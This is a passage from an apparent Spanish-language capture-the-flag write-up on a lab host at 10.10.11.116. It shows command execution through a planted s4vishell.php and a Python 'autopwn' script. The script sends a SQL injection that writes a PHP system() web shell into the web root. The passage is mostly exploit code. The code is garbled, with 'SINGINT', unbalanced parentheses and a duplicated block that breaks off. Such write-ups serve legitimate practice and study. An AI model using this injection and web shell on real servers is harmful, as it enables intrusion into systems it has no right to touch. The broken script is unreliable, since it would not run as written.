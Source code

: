 Si vamos a la url `http://10.10.11.116/s4vishell.php?cmd=whoami` vemos que podemos ejecutar comandos.

### Creamos un autopwn en python {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':
    createFile()

```## Vuln exploit & Gaining Access {-}

### Ganando acceso con el autopwn {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
```